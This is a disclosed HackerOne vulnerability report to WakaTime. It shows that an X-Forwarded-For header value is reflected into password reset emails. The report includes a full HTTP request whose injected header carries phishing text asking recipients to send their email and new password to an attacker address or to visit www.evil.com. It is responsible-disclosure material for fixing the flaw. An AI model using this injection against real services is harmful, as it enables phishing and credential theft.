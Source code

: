 # Add arbitrary content to Password Reset Email

## Report Details
- **Report ID**: 244677
- **URL**: https://hackerone.com/reports/244677
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-06-30T08:59:53.936Z
- **Disclosed**: 2017-07-20T15:36:20.840Z

## Reporter
- **Username**: footstep
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wakatime

## Vulnerability Information
Hi,

I noticed the inclusion of `IP Address` in the email sent for password reset. Then I tried including a new *header*, `X-Forwarded-For` to see if the IP Address in the email could change. Though it didn't change it but it did include whatever value that was injected in the header.

###Request
```
POST /api/v1/users/reset_password HTTP/1.1
Host: wakatime.com
X-Forwarded-For: _For precaution, send your email and new password to ███@email.com or visit www.evil.com.
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
X-CSRFToken: [Token]
X-Requested-With: XMLHttpRequest
Referer: https://wakatime.com/reset_password?email=████@gmail.com
Content-Length: 35
Cookie: [Cookie]
Connection: close

{"email":"EmailAddress"}
```

What is included in the request is 
> X-Forwarded-For: _For precaution, send your email and new password to ███████@email.com or visit www.evil.com.

Then the reflection in email is shown below,
{F209902}

Best Regards,
Shuaib

## Attachments
- h1uploadedattachment.png
